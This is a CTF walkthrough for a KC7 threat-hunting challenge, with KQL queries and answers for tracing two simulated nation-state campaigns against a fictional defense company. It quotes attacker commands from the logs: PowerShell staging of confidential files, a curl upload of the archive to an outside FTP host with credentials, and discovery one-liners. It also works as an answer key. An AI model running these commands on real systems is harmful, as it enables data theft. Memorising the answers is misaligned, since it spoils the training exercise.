





# Titan Shield: Microsoft Defender XDR Showcase CTF

> A comprehensive walkthrough of hunting Moonstone Sleet and Crimson Sandstorm threat actors using Microsoft Defender XDR and KQL queries


*KQL query identifying James Douglas's hostname as UB9I-DESKTOP, enabling device-specific investigation of malicious game installation.*



*Investigation reveals Christopher Taylor's role as Network Engineer, a privileged position that makes him a valuable target for attackers.*



*Defender XDR article identifying the attack as 'Moonstone Sleet using malicious tank game to infect devices', linking the IOC to a known threat actor campaign.*



*SHA256 hash (56554117d96d12bd3504ebef2a8f28e790dd1fe583c33ad58ccbf614313ead8c) of the malicious game file identified in the investigation.*



*KQL query showing the Employees table filtered for user 'chtaylor', returning employee details including username, role, hostname, and company domain.*


**Author:** David Brown  
**Challenge Platform:** KC7 Training Platform  
**Total Challenges:** 65/65  
**Final Score:** 4110 points

---

## Challenge Overview

| Attribute | Details |
|-----------|---------|
| **Platform** | KC7 Cyber Range (kc7001.eastus) |
| **Category** | Threat Hunting, Incident Response, XDR Analysis |
| **Difficulty** | Medium |
| **Points** | 4110 |
| **Skills Tested** | KQL, MITRE ATT&CK, Email Analysis, Threat Intelligence |
| **Environment** | TitanShield corporate environment |
| **Threat Actors** | Moonstone Sleet (North Korea), Crimson Sandstorm |

This challenge simulates two parallel attack campaigns against TitanShield, a fictional defense organization, requiring investigation using Microsoft Defender XDR's threat intelligence and hunting capabilities.

---

## Solution Walkthrough

### Section 1: All Fun and Games (DeTankWar Campaign)

**Scenario:** An employee reports suspicious behavior after installing a game promoted on LinkedIn.

#### Question 2-3: Social Engineering Discovery
**LinkedIn post by James Douglas:**
```
"Wow! This new tank game, DeTankWar, is so much fun! 
If you haven't already downloaded it, what are you waiting for?"
URL: https://lnkd.in/gq5FVQqF
```

**Answers:**
- Q2: `LinkedIn TMI`
- Q3: `DeTankWar;De Tank War`

#### Question 4: Identifying the Victim's Host

**KQL Query:**
```kusto
Employees
| where name == "James Douglas"
```

**Answer:** `UB9I-DESKTOP`

#### Question 5-6: File Creation Analysis

**KQL Query:**
```kusto
FileCreationEvents
| where hostname == "UB9I-DESKTOP"
| where filename has "DeTankWar"
```

**Results:**
- **File:** `DeTankWar.exe`
- **Path:** `C:\Users\jadouglas\Downloads\DeTankWar.exe`
- **Process:** `chrome.exe` (downloaded via browser)
- **SHA256:** `56554117d96d12bd3504ebef2a8f28e790dd1fe583c33ad58ccbf614313ead8c`
- **Timestamp:** 7/9/2024, 2:59:23 PM

**Answers:**
- Q5: `1`
- Q6: `56554117d96d12bd3504ebef2a8f28e790dd1fe583c33ad58ccbf614313ead8c`

#### Question 7-9: Threat Intelligence Analysis

Using Microsoft Defender XDR Intel Explorer:

**File Reputation:**
- **Malicious Score:** 100/100
- **Attribution:** Moonstone Sleet (formerly Storm-1789)
- **Article:** "Moonstone Sleet using malicious tank game to infect devices"

**Threat Actor Profile:**
- **Origin:** North Korean nation-state group
- **Targets:** Software development, IT, education, defense industrial base sectors
- **Goals:** Espionage and revenue generation
- **TTPs:** Fake companies, trojanized tools, malicious games, custom ransomware

**Answers:**
- Q8: `100`
- Q9: `Moonstone Sleet`

---

### Section 2: It's Giving Sleet

#### Question 1-6: Understanding Moonstone Sleet

**Campaign Details:**
- **Article Title:** "Moonstone Sleet using malicious tank game to infect devices"
- **Base Country:** North Korea
- **Targeted Sectors:** Software development, IT, education, **defense industrial base**
- **Attack Goals:** **espionage** and revenue generation
- **Related Actor:** Diamond Sleet
- **Campaign Start:** **February 2024**

**Answers:**
- Q1: `Moonstone Sleet using malicious tank game to infect devices`
- Q2: `North Korea`
- Q3: `defense industrial base`
- Q4: `espionage`
- Q5: `Diamond Sleet`
- Q6: `February 2024;2/24;Feb 24;Feb 2024`

#### Question 7-8: Phishing Email Analysis

**Initial Access Vector:** Messaging platforms and **email**

**Sample Phishing Email:**
```
From: Joseph Miller
Subject: NFT Game Investment Opportunity

"The C.C Waterfail is currently in the process of developing 
a new (play-to-earn (P2E)) game titled 'DeTankWar.'"

Project: https://www.detankwar.com/?en/index
```

**Answers:**
- Q7: `email`
- Q8: `detankwar.com`

#### Question 9-11: Email Campaign Scope

**KQL Queries:**
```kusto
// Count emails with malicious domain
Email
| where link has "detankwar.com"
| count

// Find targeted employees
Email
| where link has "DeTankWar"
| distinct recipient

// Join with employee data
Email
| where link has "DeTankWar"
| distinct recipient
| join kind=inner Employees on $left.recipient==$right.email_addr
| distinct email_addr, name, role
```

**Targeted Employees:**
- ethan_johnson[@]titanshield[.]com - Defense Engineer
- amir_ali[@]titanshield[.]com - Defense Engineer
- ryan_patel[@]titanshield[.]com - Defense Engineer
- james_douglas[@]titanshield[.]com - **Lead Defense Engineer**
- lucas_nguyen[@]titanshield[.]com - Defense Engineer
- henry_kim[@]titanshield[.]com - Defense Engineer

**Answers:**
- Q9: `6`
- Q10: `6`
- Q11: `Defense Engineer`

---

### Section 3: Perfectly Executed (Post-Exploitation)

#### Question 1-3: Malicious DLL Detection

**KQL Query:**
```kusto
FileCreationEvents
| where filename in~ ("nvunityplugin.dll","unityplayer.dll")
| count
```

**Results:**
- **Count:** 6 DLLs detected
- **SHA256:** `09d152aa2b6261e3b0a1d1c19fa8032f215932186829cfcca954cc5e84a6cc38`
- **Attribution:** Moonstone Sleet
- **Host:** XDNT-DESKTOP
- **User:** amali

**Answers:**
- Q1: `6`
- Q2: `09d152aa2b6261e3b0a1d1c19fa8032f215932186829cfcca954cc5e84a6cc38`
- Q3: `Moonstone Sleet`

#### Question 4-6: Data Exfiltration Analysis

**KQL Query:**
```kusto
ProcessEvents
| where process_commandline has "curl" 
    and process_commandline has_any ("mingloem.com","matrixane.com")
```

**Attack Chain Revealed:**

**1. Data Staging:**
```powershell
Copy-Item -Path \\company_share\confidential\defense\project_omega\* 
    -Destination C:\StagingArea\ -Recurse
```

**2. Compression:**
```powershell
Compress-Archive -Path C:\StagingArea\* 
    -DestinationPath C:\ReadyToGo\TopSecret.zip
```

**3. Exfiltration:**
```bash
curl -T C:\ReadyToGo\TopSecret.zip ftp://matrixane.com/upload/ 
    --user exfil:tankpass
```

**Answers:**
- Q4: `curl -T C:\ReadyToGo\TopSecret.zip ftp://matrixane.com/upload/ --user exfil:tankpass`
- Q5: `C:\StagingArea\*`
- Q6: `\\company_share\confidential\defense\project_omega\*`
- Q7: `hooray`

**IOCs:**
- **C2 Domains:** mingloem[.]com, matrixane[.]com
- **Stolen Data:** Project Omega confidential files
- **Credentials:** exfil:tankpass

---

### Section 4: A Love Story 💔 (Crimson Sandstorm Campaign)

#### Question 1-3: Discovery Command Detection

**Alert:** Suspicious discovery command execution detected

**KQL Query:**
```kusto
Employees
| where username == "chtaylor"
```

**Victim Profile:**
- **Name:** Christopher Taylor
- **Username:** chtaylor
- **Role:** Network Engineer
- **Hostname:** IL5M-DESKTOP
- **IP Address:** 10.10.0.79
- **MFA Enabled:** False

**Discovery Command:**
```cmd
cmd.exe /c echo PC and User Names -------- >>%temp%\Logs.txt && 
    whoami >>%temp%\Logs.txt
```

**Answers:**
- Q1: `IL5M-DESKTOP`
- Q2: `2024-07-20T03:58:19Z`
- Q3: `cmd.exe /c echo PC and User Names -------- >>%temp%\Logs.txt && whoami >>%temp%\Logs.txt`

#### Question 4-7: Reconnaissance Commands

**KQL Query:**
```kusto
ProcessEvents
| where hostname == "IL5M-DESKTOP"
| where process_commandline has_all("echo", ">>", "logs.txt")
```

**Results:** 39 reconnaissance commands

**Sample Commands:**
```cmd
cmd.exe /c echo Date and Time -------- >>%temp%\Logs.txt && 
    date /t >>%temp%\Logs.txt && time /t >>%temp%\Logs.txt

cmd.exe /c echo Ping Status -------- >>%temp%\Logs.txt && 
    ping yandex.com -n 1 >>%temp%\Logs.txt

cmd.exe /c echo Software -------- >>%temp%\Logs.txt && 
    wmic product get name,version >>%temp%\Logs.txt
```

**Answers:**
- Q4: `39`
- Q5: `%temp%\Logs.txt`
- Q6: `yandex.com`
- Q7: `wmic product get name,version`

#### Question 8-12: Lateral Scope Analysis

**KQL Query:**
```kusto
let usersH = ProcessEvents
| where process_commandline has_all("echo", ">>", "logs.txt")
| distinct hostname;
Employees
| where hostname in (usersH)
| sort by role
```

**Results:**
- **Total Affected Hosts:** 15
- **Total Affected Users:** 663 command executions
- **Primary Role:** Network Engineer (14 users)
- **Secondary Role:** Senior Network Engineer (1 user - David Jackson)

**Answers:**
- Q8: `Network Engineer`
- Q9: `663`
- Q10: `15`
- Q11: `Network Engineer`
- Q12: `Senior Network Engineer`

#### Question 13-15: Malicious Macro Discovery

**KQL Query:**
```kusto
ProcessEvents
| where hostname == "IL5M-DESKTOP"
| where timestamp <= datetime(2024-07-17T10:11:43.000Z)
| sort by timestamp desc
```

**Attack Timeline:**
```
7/17/2024, 10:11:42 AM - EXCEL.EXE opens malicious file
    "C:\Users\chtaylor\Downloads\New_Diet_Plan_For_My_Love.xlsx"

7/17/2024, 10:11:43 AM - Macro file executed
    C:\temp\macro.xlsm

7/17/2024, 10:47:43 AM - First reconnaissance command
```

**Answers:**
- Q13: `2024-07-17T10:47:43Z`
- Q14: `C:\temp\macro.xlsm`
- Q15: `New_Diet_Plan_For_My_Love.xlsx`

#### Question 16-17: Malicious File Analysis

**KQL Query:**
```kusto
FileCreationEvents
| where hostname == "IL5M-DESKTOP"
| where filename == "New_Diet_Plan_For_My_Love.xlsx"
```

**File Details:**
- **SHA256:** `6aeef036eb85a470dbd6d039250172a5108627b873e8b3b79fae5a7dd767e73`
- **Download Process:** Edge[.]exe
- **Path:** C:\Users\chtaylor\Downloads\
- **Timestamp:** 7/17/2024, 10:10:51 AM

**Answers:**
- Q16: `6aeef036eb85a470dbd6d039250172a5108627b873e8b3b79fae5a7dd767e73`
- Q17: `Edge.exe`

---

### Section 5: A Heartbreak 💔 (Attribution & Exfiltration)

#### Question 1-5: Phishing Email Analysis

**KQL Query:**
```kusto
Email
| where link has "https://healthylifestyle.com/share/New_Diet_Plan_For_My_Love.xlsx"
```

**Phishing Email Details:**
- **Sender:** marcella_flores[@]gmail[.]com
- **Recipient:** christopher_taylor[@]titanshield[.]com
- **Subject:** `[EXTERNAL] RE: Relax with these yoga poses, baby! 🧘`
- **Timestamp:** 7/17/2024, 2:34:41 AM
- **Total Emails Sent:** 13

**Social Engineering Context:** Romance scam—Christopher had been talking to "Marcella" for months about health goals.

**Answers:**
- Q1: `marcella_flores@gmail.com`
- Q2: `[EXTERNAL] RE: Relax with these yoga poses, baby! 🧘`
- Q3: `she's just not that into you`
- Q4: `13`

#### Question 6-8: Infrastructure Analysis

**KQL Query:**
```kusto
Email
| where sender == "marcella_flores@gmail.com"
| extend domain = parse_url(link).Host
| distinct tostring(domain)
```

**Malicious Domains:**
- outlook-services[.]com
- yogalifestyle[.]com
- healthylifestyle[.]com

**PassiveDNS Resolution:**
```kusto
PassiveDns
| where domain in ("outlook-services.com","yogalifestyle.com")
| distinct ip
```

**C2 IP Addresses:**
- 208.199[.]30[.]154
- 202.241[.]233[.]180

**Answers:**
- Q5: `3`
- Q6: `3`
- Q7: `2`
- Q8: `InboundNetworkEvents`

#### Question 9-11: Reconnaissance Timeline

**KQL Query:**
```kusto
InboundNetworkEvents
| where src_ip in ("208.199.30.154","202.241.233.180")
```

**Reconnaissance Activity:**
- **Total Hits:** 47 events
- **Start Date:** 2024-07-05T00:00:00Z
- **Technique:** Web scraping of TitanShield employee profiles
- **Referrer:** hxxps://www.linkedin[.]com
- **Target Example:** hxxps://titanshield[.]com/about-us/team/sibongile-sithole

**Answers:**
- Q9: `47`
- Q10: `2024-07-05T00:00:00Z`
- Q11: `LinkedIn`

#### Question 12-14: Exfiltration Target

**KQL Query:**
```kusto
Email
| where sender contains "david_jackson"
```

**Suspicious Email Recipient:**
```
exfilbucket93@gmail.com
```

**Target Profile:**
```kusto
Employees
| where name contains "david"
```

**David Jackson Details:**
- **Role:** Senior Network Engineer
- **Username:** dajackson
- **Email:** david_jackson[@]titanshield[.]com
- **IP:** 10.10.0.8
- **Hostname:** 2XWD-DESKTOP
- **MFA Enabled:** True

**Answers:**
- Q12: `David Jackson`
- Q13: `Senior Network Engineer`
- Q14: `10.10.0.8`

#### Question 15-17: Post-Compromise Activity

**KQL Query:**
```kusto
OutboundNetworkEvents
| where src_ip contains "10.10.0.8"
| where url contains "search" and url contains "google"
```

**Suspicious Google Searches (8/3/2024):**
1. 07:00:23 AM - "still ca..." [likely: EDR still catching]
2. 07:09:23 AM - "how to..." [likely: bypass EDR]
3. 07:38:23 AM - "how to..." 
4. 08:09:23 AM - "why doesn't my girlfriend talk to me on **Thursdays or Fridays**"
5. 08:14:23 AM - "why do..."

**Total Google Searches:** 6

**Answers:**
- Q15: `2024-08-03T07:09:23Z`
- Q16: `Thursday,FRIDAY`
- Q17: `6`

**Mission Complete Answer:** `Open For Work`

---

## Tools Used

| Tool | Purpose |
|------|---------|
| **Microsoft Defender XDR** | Threat intelligence, malware analysis, IOC lookup |
| **KQL (Kusto Query Language)** | Log analysis and threat hunting |
| **KC7 Cyber Range** | Simulated enterprise environment |
| **Intel Explorer** | File hash reputation and threat actor attribution |
| **PassiveDNS** | Domain-to-IP resolution tracking |

---

## Key Indicators of Compromise (IOCs)

### Moonstone Sleet Campaign

**File Hashes:**
```
56554117d96d12bd3504ebef2a8f28e790dd1fe583c33ad58ccbf614313ead8c  # DeTankWar.exe
09d152aa2b6261e3b0a1d1c19fa8032f215932186829cfcca954cc5e84a6cc38  # NVUnityPlugin.dll
```

**Domains:**
```
detankwar.com
mingloem.com
matrixane.com
```

**Phishing Sender:**
```
LinkedIn shortened URL: https://lnkd.in/gq5FVQqF
```

**Exfiltration Credentials:**
```
exfil:tankpass
```

### Crimson Sandstorm Campaign

**File Hashes:**
```
6aeef036eb85a470dbd6d039250172a5108627b873e8b3b79fae5a7dd767e73  # New_Diet_Plan_For_My_Love.xlsx
```

**Domains:**
```
outlook-services.com
yogalifestyle.com
healthylifestyle.com
```

**C2 Infrastructure:**
```
208.199.30.154
202.241.233.180
```

**Phishing Email:**
```
marcella_flores@gmail.com
```

---

## MITRE ATT&CK Mapping

| Tactic | Technique | Example from Challenge |
|--------|-----------|------------------------|
| **Reconnaissance** | T1589.002 - Email Addresses | LinkedIn profile scraping |
| **Initial Access** | T1566.001 - Spearphishing Attachment | New_Diet_Plan_For_My_Love.xlsx |
| **Initial Access** | T1566.002 - Spearphishing Link | DeTankWar download link |
| **Execution** | T1204.002 - Malicious File | Excel macro execution |
| **Persistence** | T1547 - Boot or Logon Autostart | DLL sideloading |
| **Defense Evasion** | T1562.001 - Disable Security Tools | EDR evasion searches |
| **Credential Access** | T1003.001 - LSASS Memory | Mimikatz referenced in TI |
| **Discovery** | T1033 - System Owner/User Discovery | `whoami` command |
| **Discovery** | T1082 - System Information Discovery | `wmic product get name,version` |
| **Discovery** | T1018 - Remote System Discovery | Network scanning |
| **Collection** | T1074.001 - Local Data Staging | C:\StagingArea\ |
| **Exfiltration** | T1041 - Exfiltration Over C2 | curl FTP upload |
| **Impact** | T1486 - Data Encrypted for Impact | FakePenny ransomware |

---

## Key Takeaways

1. **Social Engineering Remains King**: Both campaigns succeeded through sophisticated social engineering—fake gaming opportunities and romance scams—not technical exploits.

2. **Defense Industrial Base Targeting**: Moonstone Sleet specifically targets defense contractors with play-to-earn NFT games as lures, exploiting cryptocurrency hype.

3. **Multi-Month Reconnaissance**: Crimson Sandstorm invested months building trust through a fake romantic relationship before delivering the malicious payload—patience is a hallmark of APT operations.

4. **Living Off the Land**: Both actors extensively used native Windows tools (cmd[.]exe, PowerShell, wmic, curl) to evade detection, demonstrating the effectiveness of LOLBins.

5. **MFA Gaps**: Christopher Taylor had MFA disabled while David Jackson had it enabled—yet both were compromised, highlighting that MFA alone isn't sufficient against sophisticated social engineering.

6. **Network Engineers as High-Value Targets**: 15 network engineers were compromised, likely for their elevated access to infrastructure and security tools—insider knowledge is valuable for persistence.

7. **Threat Intelligence Integration**: Microsoft Defender XDR's Intel Explorer immediately identified the malicious file and attributed it to Moonstone Sleet with 100% confidence, demonstrating the value of integrated TI platforms.

8. **KQL for Threat Hunting**: Kusto Query Language proved essential for pivoting between datasets (Email → FileCreationEvents → ProcessEvents → PassiveDNS), showing the power of unified security data lakes.

9. **Detection != Prevention**: Despite alerts firing on `whoami` execution, the actor had already exfiltrated Project Omega data by the time investigation began—speed of response matters.

10. **Romance Scams in Corporate Settings**: The Crimson Sandstorm campaign exploited personal relationships to bypass organizational security controls—user awareness training must address personal vulnerabilities, not just technical ones.

---

**Challenge Completed:** May 9, 2026  
**Final Rank:** [FILL IN]  
**Certification:** Titan Shield Agent